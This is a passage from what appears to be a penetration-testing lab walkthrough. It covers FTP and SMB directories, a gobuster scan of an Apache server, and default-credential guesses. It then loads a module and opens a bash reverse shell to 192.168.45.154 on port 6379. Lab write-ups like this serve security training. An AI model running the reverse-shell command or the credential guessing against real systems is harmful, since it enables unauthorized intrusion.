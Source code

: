    I noticed that it says we need some way to upload module to the target and we have write access to ftp share.
    
    ![image.png](image%206.png)

    `Respective root directories of ftp and smb`
    ```bash
    ftp 
    - /srv/ftp
    - /var/ftp
    
    smb
    - /srv/samba
    - /etc/samba/smb.conf
    ```
    

## Web

### Port 80

- Version - Apache httpd 2.4.6 ((CentOS) PHP/7.3.22)

Gobuster scan

```bash
gobuster dir -u http://$IP/ -w /usr/share/wordlists/dirb/common.txt -t 42
```

![image.png](image%207.png)

Nothing in `sitemap.xml`, we are forbidden to access any other directory that `login`, I tried `admin:admin`, `admin:password`, `sybaris:sybaris` but didn’t work. That means we should check full port scan.

I searched for public exploits of `HTMLy v2.7.5` but didn’t find anything.

## Exploitation

After loading module let’s try to execute commands:

![image.png](image%208.png)

Now let’s get a reverse shell:

```bash
bash -i >& /dev/tcp/192.168.45.154/6379 0>&1
```

![image.png](image%209.png)

Now we have a shell.

![image.png](image%2010.png)
